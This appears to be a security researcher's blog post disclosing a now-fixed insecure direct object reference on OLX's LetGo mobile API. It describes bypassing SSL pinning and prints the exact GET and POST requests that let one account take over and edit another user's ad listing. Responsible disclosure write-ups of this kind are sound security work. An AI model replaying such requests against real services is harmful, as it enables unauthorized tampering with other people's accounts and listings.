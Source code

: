 ```yaml
---
layout: post
title:  "Taking over every Ad on OLX (automated), an IDOR story"
date:   2017-10-18 15:30:00 +0200
categories: bugbounty infosec security olx idor high automated
---
```

# Public disclosure #
Hi again! Thank you for reading my third blog post. Happy to share all the details with you on the Insecure Direct Object Reference attack (IDOR) as mentioned in my first blog. It has been resolved by OLX and publicly disclosed on HackerOne, meaning it's time for a write-up!

# Some context #
OLX powers the LetGo website for a couple of countries including The Netherlands. LetGo is an eBay like website, allowing you to buy new stuff and let go of old stuff.

You can probably imagine the excitement I felt finding out I could take over an ad uploaded by someone else and change the pricing and details. The changes will have to go through a manual approval process, but from my repeated experience this ends up fine. Especially for example changing prices from 40 to 35 euros will always go through. Also it appears that after several approvals my account got whitelisted and approvals were not required anymore.

Because there was no rate limiting in place and the API supported walking through the full listing of all the ads, there was a potential for building a small script that does exactly that. Loop all the ads, take over each ad, change the pricing. This way it was possible to take over the entire collection of ads on the website.

Of course it's not a good idea to actually do so, no need to prove anything this severe and cause damage. So right after verifying the initial IDOR and the moment I saw the potential I reported the issue. Also note that I did not take over any ads that were not mine: always use multiple test accounts! Safety first.

# How I found the IDOR #
Having OLX permission: full disclosure time!

First of all we need to proxy the traffic coming from the iOS / Android apps. This traffic is SSL encrypted which is fine: just import the CA BurpSuite provisions for you. But nowadays some apps implement SSL pinning, meaning the BurpSuite CA does not work out of the box. You can bypass this added layer of protection by unpinning SSL. One way would be reverse engineering the app and patching out the checks, but a much easier way is to unpin system wide.

So I have set up both a jailbroken iPad with SSL pinning disabled (using a cydia app) and an Android phone with SSL pinning disabled (using an Xposed module). This way you can always intercept traffic using a proxy like BurpSuite and (almost) any app. Note that you can just as easily set up Android emulators to accomplish the same goal (try genymotion or android studio).

By intercepting the API calls during browsing of your iOS and Android apps, you can learn about-, change- and repeat API calls.

Setup test accounts:
- Android account: token '111111'
- iOS     account: token '222222'

ACCOUNT\_1:
1. Post a new ad using token '111111' (returns the ID, in this test case: 888888).
2. Wait for approval
3. Approved and published on site

ACCOUNT\_2:
1. Fetch advertisement list through a search api call
2. Attack an ad by doing a POST call (picked the newly posted 888888 here).
3. The takeover of the ad is instant: it's now in ACCOUNT\_2, not in ACCOUNT\_1 anymore
4. Wait for approval
5. Approved and published on site with my changes

The attack - using ACCOUNT\_2 - involves two api calls: GET /i2/ajax/ads/ (to get id's) and POST /i2/newadding/ (to take over and make changes).

The GET call lists all the ads including id's (paginated) and looks like this:

{% highlight html %}
GET /i2/ajax/ads/?json=1&app\_ios=285&brand=Letgo&client=ios&version=285&token=222222&location=1,1&lang=en&search%5Blat%5D=1&search%5Blon%5D=1&search%5Border%5D=dist&search%5Bdistance%5D=20000 HTTP/1.1
Host: letgonl-a.akamaihd.net
Connection: close
Accept: */*
User-Agent: Mozilla/5.0 (Linux; U; Android 2.2; en-us; Droid Build/FRG22D) AppleWebKit/533.1 (KHTML, like Gecko) Version/4.0 Mobile Safari/533.1           Accept-Language: en-NL;q=1.0, nl-NL;q=0.9
X-Origin-OLX: production
{% endhighlight %}

The POST call - the actual attack / IDOR - looks like this:

{% highlight html %}
POST /i2/newadding/?json=1&app_ios=285&brand=Letgo&client=ios&version=285&token=222222&location=1,1&lang=en HTTP/1.1
Host: letgonl-a.akamaihd.net
Content-Type: application/json
Content-Length: 222
Accept: */*
Connection: close
User-Agent: Mozilla/5.0 (Linux; U; Android 2.2; en-us; Droid Build/FRG22D) AppleWebKit/533.1 (KHTML, like Gecko) Version/4.0 Mobile Safari/533.1
Accept-Language: en-NL;q=1.0, nl-NL;q=0.9
X-Origin-OLX: production

{"ad_id":888888,"params":{"price":"35"},"description":"This is awesome","person":"nickname","title":"My title","category_id":"800","locations":[{"map_lon":1,"map_lat":2}]}
{% endhighlight %}

Note that I'm just repeating the GET and POST calls I intercepted, replacing the token from ACCOUNT\_1 with the token from ACCOUNT\_2.

Again I would like to emphasize you must always use test accounts, never cause damage, think before you act. It's a lot of fun, but it's not a game!

My suggested fix was: 'The update POST call does check for something like "is\_authenticated()" but it appears it does not check for "is\_authorized()", which in turn could implement something like "is\_owner()".'

# Lessons learned #
1. Focus on bug bounty programs with a good track record. Chasing should not be nescessary, it's a two way street. And #NoFreeBugs.
2. Know when to stop attacking one specific issue or platform. Got stuck? Keep on moving! Write down your notes on what you have found so far and come back later.

Let's keep on hacking!

Cheers,
kciredor

{% twitter https://twitter.com/kciredor_/status/920647329652371456 %}
